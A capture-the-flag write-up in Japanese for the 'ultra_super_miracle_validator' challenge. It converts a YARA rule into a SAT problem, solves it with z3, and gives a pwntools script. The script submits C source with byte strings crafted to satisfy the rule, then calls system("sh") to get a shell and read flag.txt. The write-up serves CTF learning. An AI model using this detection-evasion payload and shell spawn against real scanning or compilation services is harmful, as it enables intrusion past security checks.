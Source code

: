 # writeup - ultra_super_miracle_validator

SAT

rule.yaraの条件は
`(x1 v x6 v x12 v -x21 v x32) ^ (x3 v x5 v -x11 v x24 v x35) ^ (-x3 v x31 v x40 v x9 v x27) ^ (x4 v x8 v x10 v x29 v x40) ^ (x4 v x7 v x11 v x25 v -x36) ^ (x8 v x14 v x18 v x21 v x38) ^ (x12 v x15 v -x20 v x30 v x35) ^ (x19 v x21 v -x32 v x33 v x39) ^ (x2 v x37 v x19 v -x23) ^ (-x5 v x14 v x23 v x30) ^ (-x5 v x8 v x18 v x23) ^ (x33 v x22 v x4 v x38) ^ (x2 v x20 v x39) ^ (x3 v x15 v -x30) ^ (x6 v -x17 v x30) ^ (x8 v x29 v -x21) ^ (-x16 v x1 v x29) ^ (x20 v x10 v -x5) ^ (x21 v x28 v x30) ^ (-x13 v x25) ^ -x2 ^ x3 ^ -x7 ^ -x10 ^ -x11 ^ x14 ^ -x15 ^ -x22 ^ x26 ^ -x27 ^ x34 ^ x36 ^ x37 ^ -x40`
なので，cnfにしてSAT Solverに食わせると良い．

rule.cnf
```
c (x1 v x6 v x12 v -x21 v x32) ^ (x3 v x5 v -x11 v x24 v x35) ^ (-x3 v x31 v x40 v x9 v x27) ^ (x4 v x8 v x10 v x29 v x40) ^ (x4 v x7 v x11 v x25 v -x36) ^ (x8 v x14 v x18 v x21 v x38) ^ (x12 v x15 v -x20 v x30 v x35) ^ (x19 v x21 v -x32 v x33 v x39) ^ (x2 v x37 v x19 v -x23) ^ (-x5 v x14 v x23 v x30) ^ (-x5 v x8 v x18 v x23) ^ (x33 v x22 v x4 v x38) ^ (x2 v x20 v x39) ^ (x3 v x15 v -x30) ^ (x6 v -x17 v x30) ^ (x8 v x29 v -x21) ^ (-x16 v x1 v x29) ^ (x20 v x10 v -x5) ^ (x21 v x28 v x30) ^ (-x13 v x25) ^ -x2 ^ x3 ^ -x7 ^ -x10 ^ -x11 ^ x14 ^ -x15 ^ -x22 ^ x26 ^ -x27 ^ x34 ^ x36 ^ x37 ^ -x40
p cnf 40 34
1 6 12 -21 32 0
3 5 -11 24 35 0
-3 31 40 9 27 0
4 8 10 29 40 0
4 7 11 25 -36 0
8 14 18 21 38 0
12 15 -20 30 35 0
19 21 -32 33 39 0
2 37 19 -23 0
-5 14 23 30 0
-5 8 18 23 0
33 22 4 38 0
2 20 39 0
3 15 -30 0
6 -17 30 0
8 29 -21 0
-16 1 29 0
20 10 -5 0
21 28 30 0
-13 25 0
-2 0
3 0
-7 0
-10 0
-11 0
14 0
-15 0
-22 0
26 0
-27 0
34 0
36 0
37 0
-40 0
```

```sh
$ z3 rule.cnf
sat
-1 -2 3 4 -5 -6 -7 8 9 -10 -11 12 -13 14 -15 -16 -17 -18 -19 20 21 -22 -23 -24 -25 26 -27 -28 -29 -30 -31 -32 -33 34 -35 36 37 -38 -39 -40
```

## solver

```python
#!/usr/bin/env python3
from pwn import *
import os

HOST = os.getenv('CTF4B_HOST', '0.0.0.0')
PORT = int(os.getenv('CTF4B_PORT', '5000'))

context.log_level = 'critical'
io = remote(HOST, PORT)

payload = 'int main(){puts("'
payload += '廃墟の街'
payload += 'イチジクのタルト'
payload += '天使'
payload += '紫陽花'
payload += '\\x83\\x4a\\x83\\x75\\x83\\x67\\x92\\x8e'
payload += '\\x83\\x43\\x83\\x60\\x83\\x57\\x83\\x4e\\x82\\xcc\\x83\\x5e\\x83\\x8b\\x83\\x67'
payload += '\\x94\\xe9\\x96\\xa7\\x82\\xcc\\x8d\\x63\\x92\\xe9'
payload += '\\x30\\x89\\x30\\x5b\\x30\\x93\\x96\\x8e\\x6b\\xb5'
payload += '\\x2b\\x4d\\x4b\\x51\\x2d\\x2b\\x4d\\x4d\\x45\\x2d\\x2b\\x4d\\x4c\\x67\\x2d\\x2b\\x4d\\x4b\\x38\\x2d\\x2b\\x4d\\x47\\x34\\x2d\\x2b\\x4d\\x4c\\x38\\x2d\\x2b\\x4d'
payload += '\\x72\\x79\\x75\\x70\\x70\\xb9'
payload += '\\x2b\\x63\\x6e\\x6b\\x2d\\x2b\\x64\\x58\\x41\\x2d\\x2b\\x63'
payload += '\\x2b\\x4d\\x4c\\x67\\x2d\\x2b\\x4d\\x4f\\x63\\x2d\\x2b\\x4d\\x4d\\x4d\\x2d\\x2b'
payload += '");system("sh");}'

io.sendlineafter(b'source:\n', payload.encode())

io.sendline(b'echo exploited')
io.sendlineafter(b'exploited', b'cat flag.txt')
io.readline()
print(io.readline().decode(), end='')
```
